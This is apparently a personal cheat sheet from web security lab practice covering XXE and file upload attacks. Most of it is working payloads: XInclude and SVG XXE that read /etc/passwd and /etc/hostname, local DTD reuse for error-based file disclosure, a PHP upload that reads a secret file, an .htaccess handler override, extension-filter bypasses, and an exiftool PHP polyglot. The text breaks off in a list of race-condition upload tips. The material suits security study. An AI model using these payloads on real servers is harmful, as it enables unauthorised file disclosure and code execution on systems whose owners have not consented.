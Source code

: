 ```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
<xi:include parse="text" href="file:///etc/passwd"/></foo>

productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```

SVG upload via XXE:

`<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY [xxe](https://portswigger.net/web-security/xxe) SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" version="1.1"><text font-size="16" x="0" y="16">&xxe;</text></svg>`****

Local DTD reuse:

```
<!DOCTYPE foo [
<!ENTITY % local_dtd SYSTEM "file:///usr/local/app/schema.dtd">
<!ENTITY % custom_entity '<!ENTITY &#x25; file SYSTEM "file:///etc/passwd">
<!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///nonexistent/&#x25;file;&#x27;>">
&#x25;eval;
&#x25;error;
'>
%local_dtd;
]>
```

[https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity](https://book.hacktricks.xyz/pentesting-web/xxe-xee-xml-external-entity)

# File Upload Vulnerabilities

PHP upload:

```
Content-Type: text/plain

<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Misc Ideas/Tips:

- If the server trusts the Content-Type header, it can be tampered with.
- Upload to unintended directories using path traversal.
    - Include a relative path in the filename.
    - Use obfuscation techniques.
- If the server is Apache, upload an .htaccess file to interpret any extension as PHP.
    
    `AddType application/x-httpd-php .hoge`
    
- Mix upper and lower cases
- Attach multiple extensions, e.g. shell.php.test
- (Double) URL encode the dot
- Add semicolon or null byte before the extension
- Use multibyte Unicode characters, such as xC0 x2E, xC4 xAE or xC0 xAE
- If ".php" is stripped, try "p.phphp"
- If the file content is also checked, try polyglots
    - `exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" -o polyglot.php [元になる画像ファイル]`
- Race condition upload:
    - code:
    